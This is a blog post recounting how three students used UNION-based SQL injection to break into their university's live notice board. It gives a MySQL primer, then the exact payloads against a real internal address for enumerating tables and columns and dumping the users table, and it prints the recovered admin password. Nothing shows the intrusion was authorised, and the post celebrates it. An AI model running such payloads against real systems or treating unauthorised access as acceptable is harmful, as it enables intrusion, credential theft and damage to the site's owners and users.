






+++
title="How we hacked our university notice board?"
date="2014-07-10"
description="A post explaining how we hacked our notice board of our university by exploiting a SQL Injection vulnerability"
author="Nagesh Podilapu"
[taxonomies]
tags=["exploitation", "SQLi", "web"]
+++

It's been nearly 3 months since my last post. Today I thought It will be helpful for the guys who are interested in Cyber Security, If I write about UNION Based SQLi that we did on our university notice board.
A little learning part before we jump on to exploitation.

```
# Just selecting 1 2 and 3
mysql> select 1,2,3;
+---+---+---+
| 1 | 2 | 3 |
+---+---+---+
| 1 | 2 | 3 |
+---+---+---+

# database() is a MySQL function to get current database name.
mysql> select database();
+-----------------+
| database()      |
+-----------------+
| UNIONBased_SQLi |
+-----------------+

# Just selecting 1,database(),3
mysql> select 1,database(),3;
+---+-----------------+---+
| 1 | database()      | 3 |
+---+-----------------+---+
| 1 | UNIONBased_SQLi | 3 |
+---+-----------------+---+

# group_concat() is a MySQL function which concatenates all the rows
mysql> select group_concat(username,"-",password) from users;
+---------------------------------------------------+
| group_concat(username,"-",password)               |
+---------------------------------------------------+
| admin-admin@onb,N090001-rgukt123,N090002-rgukt123 |
+---------------------------------------------------+

# Example of a MySQL UNION operator.
mysql> select 1,2,3 UNION select 4,5,6;
+---+---+---+
| 1 | 2 | 3 |
+---+---+---+
| 1 | 2 | 3 |
| 4 | 5 | 6 |
+---+---+---+

# UNION only works when two select statements have the same no.of columns.
mysql> select 1,2,3 UNION select 5,6;
ERROR: The used SELECT statements have a different number of columns

# To nullify the result of LHS select statement I appended a condition 1=0
 which is false. So the results include only RHS select statement results.
mysql> select username from users where sno=1 and 1=0 UNION select 1;
+----------+
| username |
+----------+
| 1        |
+----------+
```

Good, now let's have a glance at why we started this.

After doing brute-force attack on a web page for getting flag in a [CTF](https://ctftime.org/ctf-wtf/), we thought It would give us admin rights If we can do the same attack on our notice board too. But later we realized that we can't just get the admin password by a filthy brute-force attack.

So we explored that website a bit and noticed that there is a page **notice_view.php?id=1** which takes **id** as GET parameter.



As we are web developers we came to an estimation that the backend MySQL query might be

```
select * from tablename where somecolumnname=$_GET["id"];
```

Yeah... That one seems compromising and we just gave it a shot with our best injection payload i.e (single quote) into the GET parameter id. Viola!!

```
You have an error in your SQL syntax; check the manual that corresponds
to your MySQL server version for the right syntax to use near ''' at line 1
```

Yes! This is vulnerable & we can proceed with exploitation. The best part starts now.

Our next step is to find database name that is used for storing passwords. Exciting isn't it? And we used the below payload

```
1 and 1=0 UNION select 1,2,3,4,5 --
```

So the resultant query becomes

```
select * from sometablename where
somecolumnname=1 and 1=0 UNION select 1,2,3,4,5 --;
```

That payload resulted in an error

```
The used SELECT statements have a different number of columns
```

Yeah it worked. To apply union on 2 SQL query's both must have same no.of columns. But here we didn't know the no.of columns, so to find no.of columns we tried imagining from 1 to some number until which we will not get an SQL error. We used below payloads, and 3rd one made it!

```
http://10.2.42.242/ONB/notice_view.php?id=1 and 1=0 UNION select 1--
http://10.2.42.242/ONB/notice_view.php?id=1 and 1=0 UNION select 1,2--
http://10.2.42.242/ONB/notice_view.php?id=1 and 1=0 UNION select 1,2,3--
```



So the backend query which is fetching notices is selecting 3 columns, but the web page is displaying only 2 & 3 (So these columns are vulnerable) and anything we inject in those columns that will display the result of that injected query on web page.

Cool, so now we can inject a code that will print database name on web page. There is a MySQL function **database()** which will display the current selected database. So we can use that function in any of the columns 2 (or) 3.

```
http://10.2.42.242/ONB/notice_view.php?id=1 and 1=0 UNION select 1,database(),3--
```

And result of this query is..



We have the database name **Notices**, now we have to find the table name for that we will use the mysql default Database which stores information of all the databases in it. So we have to extract all the information related to the database **Notices**. In order to do so we have used this payload

```
http://10.2.42.242/ONB/notice_view.php?id=1 and
1=0 UNION select 1,group_concat(TABLE_NAME),3 from information_schema.TABLES
where TABLE_SCHEMA='Notices' --
```

And the result is



Now we got all the tables in **Notices** Database and those are **notices, users**. This 'users' table seems interesting and we chose to see the contents of 'users' table first. But before that we should know the columns names of that table, information_schema is our friend now.

```
http://10.2.42.242/ONB/notice_view.php?id=1 and 1=0 UNION
select 1,group_concat(COLUMN_NAME),3 from information_schema.COLUMNS where
TABLE_NAME='users' AND TABLE_SCHEMA='Notices'--
```



Now we just need to print password column from that table, used below payload.

```
http://10.2.42.242/ONB/notice_view.php?id=1 and 1=0
UNION select 1, group_concat(username, "-", password), 3 from users --
```

Result is...



Ah! Finally, the admin password is on page and it is: **admin@onb**

And in this post I keep on mentioning we. So we are

[Nageswara Rao Podilapu (Me)](https://www.facebook.com/H4rryp0tt3r7)<br>
[Anesh Parvatha](https://www.facebook.com/anesh.cse)<br>
[Ambati Bharath](https://www.facebook.com/bharath.hussy)
